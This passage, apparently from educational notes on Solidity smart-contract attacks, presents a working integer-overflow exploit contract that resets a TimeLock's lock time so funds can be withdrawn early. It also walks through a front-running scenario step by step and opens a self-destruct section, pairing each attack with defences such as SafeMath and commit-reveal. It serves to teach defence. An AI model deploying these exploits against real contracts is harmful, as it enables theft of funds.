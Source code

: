 ```
contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
        so x = -t
        */
        timeLock.increaseLockTime(
            type(uint).max - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```

Preventative techniques:

- Use SafeMath to will prevent arithmetic overflow and underflow

## Attack - Front running
Transactions take some time before they are mined. An attacker can watch the transaction pool and send a transaction, have it included in a block before the original transaction. This mechanism can be abused to re-order transactions to the attacker's advantage.

```
1. Alice deploys FindThisHash with 10 Ether.
2. Bob finds the correct string that will hash to the target hash. ("Ethereum")
3. Bob calls solve("Ethereum") with gas price set to 15 gwei.
4. Eve is watching the transaction pool for the answer to be submitted.
5. Eve sees Bob's answer and calls solve("Ethereum") with a higher gas price
   than Bob (100 gwei).
6. Eve's transaction was mined before Bob's transaction.
   Eve won the reward of 10 ether.
``` 

Preventative techniques:

- use commit-reveal scheme
- use submarine send

## Attack - Self destruct
[https://solidity-by-example.org/hacks/self-destruct/](https://solidity-by-example.org/hacks/self-destruct/)
Selfdestruct allows a smartcontract to be deleted from Ethereum Virtual Machine. As a parameter to it, you pass the adress to receive it and this can cause issues to the adress receiving it.
